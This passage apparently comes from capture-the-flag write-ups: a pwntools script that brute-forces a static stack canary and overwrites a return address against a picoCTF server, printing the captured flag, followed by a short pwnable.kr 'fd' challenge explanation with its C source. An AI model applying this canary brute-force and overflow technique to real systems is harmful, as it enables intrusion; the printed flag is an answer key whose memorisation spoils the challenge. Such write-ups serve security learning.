 ```python
from pwn import process, p32, context, remote
from tqdm import trange

def get_canary():
    canary = b""
    for i in range(1, 5):
        for c in trange(65, 256): #65 to speedup
            with context.quiet:
                #io = process("./vuln")
                io = remote("saturn.picoctf.net", 54767)
                io.sendlineafter(b"> ", str(64 + i).encode())
                io.sendlineafter(b"> ", b'A'*64 + canary + chr(c).encode())
                output = io.recvall()
                io.close()
            if b"?" in output:
                canary += chr(c).encode()
                break
    return canary

canary = get_canary()
print(canary)

#io = process("./vuln")
io = remote("saturn.picoctf.net", 54767)
io.sendlineafter(b"> ", b"100")
io.sendlineafter(b"> ", b'A'*64 + canary + b'B'*16 + p32(0x8049336))
print(io.read())
print(io.read())
# picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}
```



<br>

# fd - pwnable.kr

Simply pass in 0x1234 so that the fd argument to the read function is 0 (stdin) then you can enter LETMEWIN

```
fd@pwnable:~$ ls
fd  fd.c  flag
fd@pwnable:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```